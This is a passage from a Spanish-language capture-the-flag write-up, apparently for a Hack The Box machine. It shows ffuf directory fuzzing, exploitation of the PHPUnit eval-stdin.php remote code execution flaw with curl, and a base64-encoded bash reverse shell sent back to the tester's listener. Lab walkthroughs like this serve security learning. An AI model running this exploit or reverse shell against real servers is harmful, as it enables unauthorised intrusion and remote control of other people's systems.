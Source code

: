 No hay nada interesante, vamos a aplicar fuzzing para enumerar directorios.

```
$ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://store.djewelry.htb/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://store.djewelry.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 233ms]
css                     [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 228ms]
js                      [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 228ms]
vendor                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 229ms]
fonts                   [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 228ms]
```

Al hacer el fuzzing vemos que nos reportó el directorio ```vendor```, en el cual se suelen guardar todas las librerías creadas por terceros, dentro de este directorio hay una carpeta llama ```phpunit``` la cual tiene un archivo que es el ```eval-stdin.php``` y es vulnerable a un ```Remote Code Execution```.

```
$ curl -s -X POST 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("whoami");'
www-data
```

# Reverse Shell
Como tenemos ejecución remota de comandos, vamos a mandarnos una reverse shell, por lo tanto, nos pondremos en escucha con netcat y tramitaremos la siguiente petición.

```
$ echo -n 'bash -i >& /dev/tcp/10.10.14.3/6969 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzY5NjkgMD4mMQ==
$ curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzY5NjkgMD4mMQ== | base64 -d | bash");'
```
